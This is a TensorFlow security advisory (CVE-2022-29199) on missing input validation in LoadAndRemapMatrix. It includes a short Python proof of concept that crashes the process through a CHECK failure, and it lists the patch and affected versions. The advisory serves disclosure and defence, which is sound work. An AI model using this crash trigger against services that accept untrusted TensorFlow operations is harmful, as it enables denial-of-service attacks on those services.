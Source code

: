 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-067.md
## TFSA-2022-067: Missing validation causes denial of service via `LoadAndRemapMatrix`

### CVE Number
CVE-2022-29199

### Impact
The implementation of [`tf.raw_ops.LoadAndRemapMatrix`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/load_and_remap_matrix_op.cc#L70-L98) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

ckpt_path = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)
old_tensor_name = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)

row_remapping = tf.constant(0, shape=[], dtype=tf.int64)
col_remapping = tf.constant(3, shape=[3], dtype=tf.int64)
initializing_values = tf.constant([], shape=[0, 1], dtype=tf.float32)

tf.raw_ops.LoadAndRemapMatrix(
  ckpt_path=ckpt_path,
  old_tensor_name=old_tensor_name,
  row_remapping=row_remapping,
  col_remapping=col_remapping,
  initializing_values=initializing_values,
  num_rows=1,
  num_cols=1)
```

The code assumes `initializing_values` is a vector but there is no validation for this before accessing its value:

```cc
OP_REQUIRES_OK(context, context->input("row_remapping", &row_remapping_t));
const auto row_remapping = row_remapping_t->vec<int64_t>();
```

### Patches
We have patched the issue in GitHub commit [3150642acbbe254e3c3c5d2232143fa591855ac9](https://github.com/tensorflow/tensorflow/commit/3150642acbbe254e3c3c5d2232143fa591855ac9).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
